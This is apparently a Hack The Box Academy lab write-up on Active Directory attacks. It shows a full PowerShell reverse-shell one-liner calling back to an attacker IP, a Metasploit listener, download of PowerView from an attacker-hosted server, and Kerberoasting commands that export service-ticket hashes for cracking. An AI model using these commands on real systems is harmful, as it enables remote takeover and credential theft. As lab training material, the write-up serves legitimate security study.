 # AD Enumeration & Attacks - Skills Assessment Part I  

>Scenario [AD Enumeration & Attacks - Skills Assessment Part I](https://academy.hackthebox.com/module/143/section/1278)  

> webshell access at `http://10.129.120.199/uploads/antak.aspx` with these credentials: `admin:My_W3bsH3ll_P@ssw0rd!`.  

## Start Listener Metasploit  

```
sudo msfconsole

msf6 exploit(multi/handler) > set payload payload/windows/shell/reverse_tcp
```  

>Execute Powershell Payload in the webshell:

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.15.163',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```  

>Obtain flag from `C:\users\administrator\desktop>` running command `get-content flag.txt`. 

## Kerberoast - SPN  

>Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer.  
>Host Active directory tools from path on Kali Linux.  

```
cd htb/academy/ActiveDirectory/Tools
sudo python3 -m http.server 80
```  

>Upload to Windows member server victim tools such as `PowerView`.  

```
(new-object net.webclient).downloadfile('http://10.10.15.163/PowerView.ps1', 'C:\tools\PowerView.ps1')
```

>Import PowerView on target in powershell console. and get domain users with spn values.  

```
import-module ./powerview.ps1

Get-DomainUser * -spn | select samaccountname

Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```  
